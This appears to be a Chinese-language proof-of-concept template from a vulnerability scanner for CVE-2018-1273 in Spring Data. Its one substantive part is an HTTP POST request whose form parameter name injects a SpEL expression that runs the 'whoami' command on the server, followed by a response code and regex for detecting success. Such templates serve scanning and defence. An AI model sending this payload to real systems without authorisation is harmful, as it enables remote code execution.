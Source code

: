 ﻿# CVE_2018_1273

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
POST /users HTTP/1.1
Content-type: application/x-www-form-urlencoded

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("whoami")]
```

> 响应代码特征：500

> 响应内容特征：^(?=.*?(?:Invalid|property)).*?$

> 上传文件定位：

> 验证文件来源：Spring_CVE_2018_1273.poc
